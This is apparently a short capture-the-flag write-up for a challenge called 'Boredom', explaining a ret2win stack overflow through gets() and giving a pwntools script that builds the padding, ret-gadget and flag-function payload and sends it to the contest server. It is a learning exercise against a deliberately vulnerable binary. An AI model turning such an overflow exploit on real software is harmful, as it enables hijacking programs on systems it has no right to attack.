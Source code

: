 # Boredom

Simple ret2win. It calls gets on rbp-0xd0, and there's a function called flag that grabs the flag from flag.txt


0xd0 + 8 bytes of padding + address of ret + flag function. Address of ret is needed on remote because stack alignment is a bitch

```python
from pwn import *
NUM_TO_RET = 0xd0 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./boredom")
payload = flat(padding, 0x000000000040101a, e.symbols['flag'] , word_size=64)
#p = e.process()
p = remote('pwn.hsctf.com', 5002)
p.sendline(payload)
p.interactive()
```

